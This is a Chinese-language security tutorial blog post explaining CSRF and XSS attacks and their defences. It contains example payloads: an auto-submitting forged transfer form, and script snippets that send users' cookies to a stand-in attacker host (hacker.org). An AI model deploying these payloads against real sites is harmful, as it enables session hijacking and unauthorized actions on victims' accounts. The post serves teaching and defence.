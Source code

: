 Title: CSRF攻击和XSS攻击
Date: 2018-11-27 23:59:46
Category: 技术
Tag: 安全
============================================================
### CSRF
>CSRF，全称Cross-site request forgery（跨站请求伪造），其原理是利用用户的身份，执行非用户本身意愿的操作(隐式身份验证机制)。
<!--more-->
#### 形式
图片URL、超链接、Form提交等，也可以嵌入到第三方论坛、文章中等地方。

#### 危害
攻击者可以盗用用户的身份，以用户的名义进行恶意操作，包括但不限于以用户的名义发送邮件、资金转账、网上等危害用户的操作

#### 原理

假定受信的站点A是`http://example.org`，恶意站点B是`http://hacker.org`

1. 用户访问并登陆`http://example.org`；
2. 站点A生成并返回Cookie给用户；
3. 用户点击恶意网站B`http://hacker.org`提供的图片链接`< img src="http://example.org/transfer?amount=10&for=hacker">`（或者包含该图片的链接地址），如果此时站点A的Cookie未过期，那么浏览器就会带上Cookie并向站点A发起`http://example.org?amount=10&for=hacker`请求；
4. 由于发起请求带有用户的Cookie，站点A通过授信并进行相关的操作，造成相关损失。

上面使用的是通过`GET`请求冒用用户发起请求，不仅`GET`请求，`POST`也没法防止`CSRF`攻击，下面是一个自动提交表单的`CSRF`攻击。

```
<form action="http://example.org/transfer" method="POST">
    <input type="hidden" name="amount" value="10">
    <input type="hidden" name="for" value="hacker">
</form>
<script>document.forms[0].submit()</script>
```
用户在打开这个页面后，该表单请求会自动提交，相当于用户自己进行了一次POST请求。

####防御
##### 1.验证码
>最有效的防御方法

CSRF的原理是**在用户毫不知情的情况下发起了网络请求**，而验证码强制用户要与应用进行交互，才能提交请求。
但处处使用验证码对于用户来说是一件体验很差的事情。

##### 2.检验请求头部Refer字段
>Refer用来记录该HTTP请求的来源地址

通过Refer可以保证用户的请求来自我们相信的页面地址。但是，Refer字段是由用户浏览器提供的，不同的浏览器实现各有差异，并且有些浏览器处于保护用户隐私，并不会发送Rfer字段。
因此使用Refer字段来防御CSRF有一定的限制，但从该字段可以用来监控CSRF攻击的发生。

##### 3.CSRF Token

CSRF之所以能够成功，是因为**攻击者知道攻击所需要的所有参数，因此能够构造完整请求**，因此服务器会把攻击者的请求误认为是用户发起的请求。
那么如果每次请求都让用户带上一个攻击者无法获取到的随机数，那么攻击者就无法构造完全的请求，服务器也能将攻击者的请求和用户的请求给区分开，这就是`CSRF Token`。

CSRF Token的过程：
1. 服务器生成随机数Token（该随机数生成方法要足够安全），并将该随机Token保存在用户Session（或Cookie中）；
2. 同时，服务器在生成表单提交页面的同时，需要将改Token嵌入到表单DOM（通常作为一个隐藏的input标签值，如`<input type="hidden" name="_csrf_token" value="xxxx">`）中；
3. 用户在提交表单时，该Token会随着表单数据一起提交到服务器，服务器检测提交的Token是否与用户Session（或Cookie）中的是否一致，如果不一致或者为空，则表示非法请求；否则认为是一个合法请求。

由于攻击者得到该随机Token，因此无法构造完整请求，所以可以用来防止CSRF攻击。**但是如果网站存在XSS攻击，那么该防范方法会失效，因为攻击者可以获取到用户的Cookie，从而构造完成的请求，这个过程称为XSRF。**使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以Form或AJAX形式提交，避免Token泄露。

CSRF是代替用户完成指定的动作，不直接窃取用户数据，而是代替用户发起请求，但需要知道其他用户页面的代码和数据包。

### XSS攻击
>XSS, 全称是Cross site script，即跨站脚本，为了避免与CSS，因此简称XSS

#### 形式
利用网站对用户输入没有进行限制或过滤，从而在页面中嵌入某些代码，当别的用法访问到该网页时，会执行对应的代码，从而使得攻击者可以获取

#### 危害
由于Cookie已经被攻击者获取，因此攻击可以登录账号，进行相关操作，如更改信息、转账、删除数据等敏感操作。

#### 原理
主要原因：太过于新人用户的输入

##### 反射型XSS攻击
>最常见的XSS请求攻击，将XSS攻击代码放在链接上，由用户点击触发使服务器返回XSS攻击代码，并在客户端执行，从而发起Web攻击。

![反射型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%8F%8D%E5%B0%84%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

`http://example.org?search=hello,world`：
对于该请求，服务器会将`hello,world`回显到页面中返回给客户端，客户端会显示`hello,world`。

`http://example.org?search=<script>alter('I get you!')</script>`：
对于该请求，如果服务器对输入没有进行任何处理，那么对于，那么js代码`<script>alter('I get you!')</script>`会嵌入到页面中，客户端再渲染页面的时候回执行该js代码，并弹出alter框。

`http://example.org?search=<script>src='http://hacker.com/xss.js'</script>`

```
//xss.js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://hacker.org/xss?cookie='+encodeURIComponent(document.cookie);
```

这样将用户在点击上述连接的时候，浏览器会自动引入`xss.js`文件，并执行其中js语句，里面的js语句会读取用户Cookie，并将其作为参数访问Get请求的页面，然后Cookie就会发送给攻击者。

###### 存储型XSS攻击
>与发射型不同的是，存储型XSS攻击的攻击代码是存在在网站数据库，当包含该攻击代码的页面被用户打开时，该脚本会自动运行，将打开该网页的所有用户的Cookie发送给攻击者。

![存储型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

假设有一个论坛允许用户留言并且对用户的输入不进行处理，那么攻击者在该网站的某个帖子下面留以下信息。

```
哈哈哈，有趣有趣
<script>src='http://hacker.com/xss.js'</script>
```

网站将该留言存储到数据库，那么之后每个在访问包含上述留言的用户的Cookie都会被发往攻击者。

###### Dom Based XSS
>这种类型的攻击与反射型有点类似，区别在于用户的输入并不是由服务器来返回，主要是由客户端通过DOM动态的输出数据到页面，从客户端获得DOM的数据在本地执行。

```
<HTML>
<TITLE>Welcome!</TITLE>
Hi
<SCRIPT>
var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
</SCRIPT>
<BR>
Welcome to our system
…
</HTML>
```

该页面中的某些数据是从URL中解析的，比如下面的一个请求`http://hacker.org/welcome.html?name=<script>src='http://hacker.com/xss.js'</script>`。用户在点击这个请求的时候，本地浏览器回从URL中获取name属性并填充到HTML中，从而引起XSS攻击。



#### 防御
主要解决方案：不信任用户输入的所有数据

1. 设置Cookie的属性为`Http only`，这样js就无法获取Cookie值；
2. 严格检查表单提交的类型，并且后端服务一定要做，不能信任前段的数据；
3. 对用户提交的数据就行`Html encode`处理，将其转化为HTML实体字符的普通文本；
4. 过滤或移除特殊的HTML标签，如`<script>`、`<iframe>`等；
5. 过滤js事件的标签，如`onclick=`、`onfoucs=`等、


#### Refer
1. [白帽子讲Web安全（纪念版）](https://item.jd.com/11483966.html)
2. [浅谈CSRF攻击方式](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)
3. [Web安全相关（二）：跨站请求伪造（CSRF/XSRF）](https://www.cnblogs.com/Erik_Xu/p/5481441.html)
4. [CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)
5. [XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)
6. [【web安全】第一弹：利用xss注入获取cookie](https://www.cnblogs.com/adelaide/articles/6035015.html)

